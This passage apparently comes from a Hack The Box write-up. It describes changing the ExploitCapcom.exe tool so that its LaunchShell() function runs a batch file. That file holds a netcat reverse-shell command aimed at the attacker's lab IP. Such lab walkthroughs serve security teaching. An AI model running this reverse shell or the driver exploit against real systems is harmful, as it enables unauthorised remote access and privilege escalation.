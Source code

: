 ![](/assets/img/posts/htb/07-2020-6/loaddriver.PNG)

Once that's compiled, we'll move to the executable `ExploitCapcom.exe`. We'll need to make a change to the `LaunchShell()` function to run our desired command in a privileged context. We'll create a simple batch file (`C:\temp\nc.exe 10.10.14.251 4444 -e cmd.exe`) that will run a `netcat` command to open a reverse shell. We'll add the command to execute the batch file at line 292. Once that's done we'll compile it.

![](/assets/img/posts/htb/07-2020-6/exploitcapcom.PNG)
